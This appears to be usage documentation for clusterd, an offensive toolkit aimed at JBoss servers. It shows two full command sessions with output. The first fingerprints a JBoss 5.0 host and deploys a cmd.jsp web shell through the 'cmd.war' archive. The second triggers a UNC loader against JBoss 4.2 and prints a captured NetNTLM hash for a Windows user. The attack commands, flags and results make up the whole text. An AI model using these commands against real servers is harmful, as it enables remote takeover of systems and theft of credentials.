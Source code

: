 jboss DFS deployment against JBoss 5.0
```
$ ./clusterd.py -i 192.168.1.105 -a jboss -v5.0 --deploy ./src/lib/resources/cmd.war --random-agent

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:00PM] Started at 2014-05-25 11:00PM
 [2014-05-25 11:00PM] Servers' OS hinted at windows
 [2014-05-25 11:00PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:00PM] Server hinted at 'jboss'
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss JMX Console...
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss Web Console...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:00PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:00PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss Web Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 11:00PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:00PM]   JBoss Status Page (version Any)
 [2014-05-25 11:00PM] Fingerprinting completed.
 [2014-05-25 11:00PM] This deployer requires a JSP, default to cmd.jsp? [Y/n] > 
 [2014-05-25 11:00PM] Preparing to deploy cmd...
 [2014-05-25 11:00PM] Successfully deployed '/cmd/cmd.jsp'
 [2014-05-25 11:00PM] Finished at 2014-05-25 11:00PM
```

jboss UNC hash retrieval
```
$ sudo ./clusterd.py -i 192.168.1.105 -a jboss -v4.2 --random-agent --jb-smb

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:01PM] Started at 2014-05-25 11:01PM
 [2014-05-25 11:01PM] Servers' OS hinted at windows
 [2014-05-25 11:01PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:01PM] Server hinted at 'jboss'
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss JMX Console...
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss Web Console...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:01PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:01PM]   JBoss JMX Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss Web Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss HTTP Headers (Unreliable) (version 4.2)
 [2014-05-25 11:01PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:01PM]   JBoss Status Page (version Any)
 [2014-05-25 11:01PM] Fingerprinting completed.
 [2014-05-25 11:01PM] Setting up SMB listener..
 [2014-05-25 11:01PM] Invoking UNC loader...
 [2014-05-25 11:01PM] bryan::bryan-PC:1122334455667788:34826253d353ebca4811bd08be0db067:01010000000000003dac35999f78cf019df7c49c7268a5f600000000020000000000000000000000
 [2014-05-25 11:01PM] Finished at 2014-05-25 11:01PM
```